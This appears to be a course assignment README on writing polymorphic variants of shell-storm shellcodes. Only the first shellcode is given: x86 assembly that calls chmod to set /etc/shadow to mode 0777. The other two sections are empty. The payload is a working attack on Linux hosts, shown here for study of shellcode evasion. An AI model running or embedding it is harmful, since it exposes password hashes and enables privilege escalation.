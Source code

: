 Assignment #6, Polymorphic Shellcode
====================================

Instructions:
-------------
* Take up 3 shellcodes from shell-storm and create polymorphic versions of them
* The polymorphic version *cannot* be larger than 150% of existing one
* Bonus point for making it shorter than original

Shellcode 1 (33 bytes, http://shell-storm.org/shellcode/files/shellcode-590.php):
---------------------------------------------------------------------------------
```
xor %eax,%eax
push %eax
mov $0xf,%al
push $0x776f6461
push $0x68732f63
push $0x74652f2f
mov %esp,%ebx
xor %ecx,%ecx
mov $0x1ff,%cx
int $0x80
inc %eax
int $0x80
```

Shellcode 2:
------------


Shellcode 3:
------------
